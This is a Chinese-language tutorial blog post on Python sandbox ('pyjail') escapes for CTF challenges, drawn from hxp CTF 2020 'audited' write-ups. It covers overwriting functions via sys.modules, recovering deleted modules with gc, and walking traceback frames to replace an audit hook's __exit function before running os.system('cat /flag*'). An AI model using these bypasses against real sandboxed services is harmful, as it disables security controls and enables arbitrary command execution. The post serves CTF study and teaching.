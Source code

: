```yaml
---
title: pyjail bypass-06 变量覆盖与函数篡改
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```



## 变量覆盖与函数篡改
在 Python 中，sys 模块提供了许多与 Python 解释器和其环境交互的功能，包括对全局变量和函数的操作。在沙箱中获取 sys 模块就可以达到变量覆盖与函数擦篡改的目的.

sys.modules 存放了现有模块的引用, 通过访问 `sys.modules['__main__']` 就可以访问当当前模块定义的所有函数以及全局变量

```py
>>> aaa = 'bbb'
>>> def my_input():
...     dict_global = dict()
...     while True:
...       try:
...           input_data = input("> ")
...       except EOFError:
...           print()
...           break
...       except KeyboardInterrupt:
...           print('bye~~')
...           continue
...       if input_data == '':
...           continue
...       try:
...           complie_code = compile(input_data, '<string>', 'single')
...       except SyntaxError as err:
...           print(err)
...           continue
...       try:
...           exec(complie_code, dict_global)
...       except Exception as err:
...           print(err)
... 
>>> import sys
>>> sys.modules['__main__']
<module '__main__' (built-in)>
>>> dir(sys.modules['__main__'])
['__annotations__', '__builtins__', '__doc__', '__loader__', '__name__', '__package__', '__spec__', 'aaa', 'my_input', 'sys']
>>> sys.modules['__main__'].aaa
'bbb'
```

除了通过 sys 模块来获取当前模块的变量以及函数外,还可以通过 `__builtins__`篡改内置函数等,这只是一个思路.

总体来说,只要获取了某个函数或者变量就可以篡改, 难点就在于获取.

### 利用 gc 获取已删除模块
这个思路来源于 [writeup by fab1ano – github](https://github.com/fab1ano/hxp-ctf-20/tree/master/audited)

这道题的目标是覆盖 `__main__` 中的 `__exit` 函数,但是题目将 `sys.modules['__main__']` 删除了,无法直接获取.
```py
for module in set(sys.modules.keys()):
    if module in sys.modules:
        del sys.modules[module]
```

`gc` 是Python的内置模块，全名为"garbage collector"，中文译为"垃圾回收"。`gc` 模块主要的功能是提供一个接口供开发者直接与 Python 的垃圾回收机制进行交互。

Python 使用了引用计数作为其主要的内存管理机制，同时也引入了循环垃圾回收器来检测并收集循环引用的对象。`gc` 模块提供了一些函数，让你可以直接控制这个循环垃圾回收器。

下面是一些 `gc` 模块中的主要函数：
1. `gc.collect(generation=2)`：这个函数会立即触发一次垃圾回收。你可以通过 `generation` 参数指定要收集的代数。Python 的垃圾回收器是分代的，新创建的对象在第一代，经历过一次垃圾回收后仍然存活的对象会被移到下一代。
2. `gc.get_objects()`：这个函数会返回当前被管理的所有对象的列表。
3. `gc.get_referrers(*objs)`：这个函数会返回指向 `objs` 中任何一个对象的对象列表。


exp 如下
```py
for obj in gc.get_objects():
    if '__name__' in dir(obj):
        if '__main__' in obj.__name__:
            print('Found module __main__')
            mod_main = obj
        if 'os' == obj.__name__:
            print('Found module os')
            mod_os = obj
mod_main.__exit = lambda x : print("[+] bypass")
```
在 3.11 版本和 python 3.8.10 版本中测试发现会触发 gc.get_objects hook 导致无法成功. 

### 利用 traceback 获取模块
这个思路来源于 [writeup by hstocks – github](https://github.com/hstocks/ctf_writeups/blob/master/2020/hxp/audited/README.md)

主动抛出异常, 并获取其后要执行的代码, 然后将`__exit` 进行替换, 思路也是十分巧妙.

```py
try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```
但是实际测试时使用 python 3.11 发现 `nxt_frame = tb.tb_frame` 会触发 `object.__getattr__` hook. 不同的版本中触发 hook 的地方会有差异,这个 payload 可能仅在 python 3.9 (题目版本)中适用

## 参考资料
- [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
- [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
- [python沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
- [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
- [[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
- [[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
- [audited2](https://ctftime.org/writeup/31883)
- [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
- [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
- [Python沙箱逃逸的n种姿势](https://ctftime.org/writeup/28286)
- [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)